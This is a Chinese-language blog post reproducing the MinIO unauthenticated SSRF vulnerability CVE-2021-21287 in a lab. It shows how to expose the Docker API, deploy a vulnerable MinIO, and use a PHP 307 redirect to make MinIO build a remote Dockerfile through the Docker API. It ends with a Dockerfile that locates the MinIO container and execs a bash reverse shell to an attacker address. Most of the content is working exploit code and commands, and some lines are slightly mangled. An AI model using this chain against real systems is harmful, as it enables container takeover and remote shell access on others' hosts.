

# MinIO 未授权 SSRF 漏洞（CVE-2021-21287）漏洞复现 - Space-man - 博客园

> 原文：[`www.cnblogs.com/space-x1/p/14416789.html`](https://www.cnblogs.com/space-x1/p/14416789.html)

测试环境 Centos8.2

一、启用 Docker API


打开配置文件找到

ExecStart=/usr/bin/dockerd 

```
ExecStart=/usr/bin/dockerd  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
```

重启

```
$ systemctl daemon-reload
$ systemctl restart docker
```

查看端口是否启用

```
[root@localhost ~]# netstat -nltp |grep 2375 tcp6 0      0 :::2375                 :::*                    LISTEN      4449/dockerd        
[root@localhost ~]# 
```

访问一下

```
curl -X GET http://127.0.0.1:2375/images/json
```

如果有结果说明是成功的。

Docker 安装 minio

# docker-compose.yml

```
version: '3.7' services:
  minio1:
    image: minio/minio:RELEASE.2021-01-16T02-19-44Z
    volumes: - data1-1:/data1 - data1-2:/data2
    ports: - "9000:9000" environment:
      MINIO_ACCESS_KEY: minio
      MINIO_SECRET_KEY: minio123
    command: server http://minio{1...4}/data{1...2}
 healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:9000/minio/health/live"]
      interval: 30s
      timeout: 20s
      retries: 3 ## By default this config uses default local driver,
## For custom volumes replace with volume driver configuration.
volumes:
  data1-1:
  data1-2:
```

启动

```
[root@localhost momo]# 
[root@localhost momo]# docker-compose -f docker-compose2.yml up
Building with native build. Learn about native build in Compose here: https://docs.docker.com/go/compose-native-build/
Pulling minio1 (minio/minio:RELEASE.2021-01-16T02-19-44Z)...
RELEASE.2021-01-16T02-19-44Z: Pulling from minio/minio
a6b97b4963f5: Pull complete
13948a011eec: Pull complete
b27f7b93c977: Pull complete
527a35f50a95: Pull complete
bae74d83b250: Pull complete
0f5c2801c42c: Pull complete
23c30f3146bf: Pull complete
Digest: sha256:a176d2194523a587f4103bce5e8d408e7aadc737e7e67067ca9c195a2b69fbe4
Status: Downloaded newer image for minio/minio:RELEASE.2021-01-16T02-19-44Z
Recreating momo_minio1_1 ... done
```

启动之后需要等等。大概一分钟左右。才能访问



测试一下 SSRF


可以导致 SSRF 那么添加一个 DockerFile 通过 API 来进行创建容器

首先需要 80 端口的 index.php

这里我是用宝塔搭建的网站

index.php 如下：

```
<?php
header('Location: http://192.168.0.103:2375/build?remote=http://192.168.0.103/Dockerfile&nocache=true&t=evil:1', false, 307);
```

这里是通过 Docker API 去 build 获取 80 端口下面的 DockerFIle

然后 DockerFile 文件如下：

```
ROM alpine:3.13 RUN wget -T4 http://192.168.0.103:811
```

进行测试


发现已经收到请求。并且建立了容器


然后试试接管 minio

DockerFile 如下：

这个地方有坑。还没有改好。我是随便起个 docker 反弹 shell

```
FROM alpine:3.13 RUN apk add curl bash jq

RUN set -ex && \
    { \ echo '#!/bin/bash'; \ echo 'set -ex'; \ echo 'target="http://192.168.0.103:2375"'; \ echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \ echo 'for item in ${jsons[@]}; do'; \ echo ' name=$(echo $item | base64 -d | jq -r ".Image")'; \ echo ' if [[ "$name" == *"minio/minio"* ]]; then'; \ echo ' id=$(echo $item | base64 -d | jq -r ".Id")'; \ echo ' break'; \ echo ' fi'; \ echo 'done'; \ echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.0.133/811 0>&1\"]}" | jq -r ".Id")'; \ echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

然后发送请求。测试是否反弹 shell

